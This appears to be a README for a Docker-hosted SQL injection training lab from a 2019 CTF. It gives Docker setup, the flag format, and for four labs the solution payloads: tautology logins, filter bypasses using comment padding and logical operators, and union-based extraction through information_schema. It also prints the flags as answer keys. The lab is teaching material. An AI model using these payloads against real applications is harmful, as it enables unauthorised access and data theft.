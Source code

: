 # SQLi Labs

* deps
	* https://hub.docker.com/r/richarvey/nginx-php-fpm/dockerfile
	* https://hub.docker.com/_/mysql

## Setup

```
# Start
$ docker-compose up -d
# Shutdown
$ docker-compose down
```

## Notes
* TODOs
	1. show the log file

* Checks
	* perms
	* flags
	* uninteded solution

## Labs

All flag should be format by `NISRA{<secret>_<md5 of secret + "roy@NISRA2019">}`

```
echo "<secret>_roy@NISRA2019" | md5sum
```

### lab1
* solution
```
' or 1=1 and user='admin' -- 
```
```
' or 1=1 limit 2,1 -- 
```

* description
```
Login as `admin` please

http://lab.roy4801.tw:8888
```

* flag: `NISRA{51mpl3_or_1=1_83617342bbda7839270d030ec62e5e06}`

### lab2

sanitize `--` and ` `

```
'/**/or/**/1=1/**/and/**/user='admin'/**/#
```

* description
```
No more spaces or dashes

http://lab.roy4801.tw:8889
```

* flag: `NISRA{Add_some_sanitizations_11e23f8478895eccbf9b4bc442c2ac9d}`

### lab3

sanitize `and` and `or`

```
'/**/||/**/1=1/**/&&/**/user='admin'#
```

* description
```
How dare you insert logic?

http://lab.roy4801.tw:8890
```
* flag: `NISRA{more_sanitizations_8acdb485dee808b6032a827c9b5da629}`

### lab4

union based simple

* TODOs
	* logo
	* intros
	* about

* solution
```
# detect num of columns
select=1 or 1=1 limit 0 union select 1,2,3,4,5,6,7,8,9,10,11

-1 union select ...

# list tables
select=1 or 1=1 limit 9,1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3,4,5,6,7,8,9

# list columns
select=1 or 1=1 limit 9,1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='lovelive'),3,4,5,6,7,8,9

# excract flag
select=1 or 1=1 limit 9,1 union select 1,(select group_concat(flag) from lovelive),3,4,5,6,7,8,9
```

* description
```
video of LL final live
```

* flag
```
NISRA{Honoka_wa_saiko_daze_51c4dde79082d2ef61023476effbb20b}
```